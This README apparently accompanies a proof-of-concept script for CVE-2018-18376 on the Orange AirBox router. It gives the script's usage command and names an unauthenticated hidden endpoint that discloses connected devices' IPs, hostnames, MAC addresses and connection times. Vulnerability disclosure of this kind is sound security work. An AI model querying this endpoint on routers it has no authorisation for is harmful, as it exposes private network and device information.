 # AirboxLeak
Proof of Concept of AirBoxLeak Vulnerability.           
CVE-2018-18376              

# How to use      

AsusLeak.py         
`python AirBoxLeak.py -ip 192.168.1.1`        
`IP, HOSTNAME, MAC ADDRESS, CONNECTION TIME`

# How it works        

AirBox has hidden webpage `http://192.168.1.1/goform/getWlanClientInfo?rand=` which prints currently connected devices ip,hostnames,mac addresses and connection time.

# Router information        

Router: AirBox
Vendor: Orange
Firmware version: Y858_FL_01.16_04
    
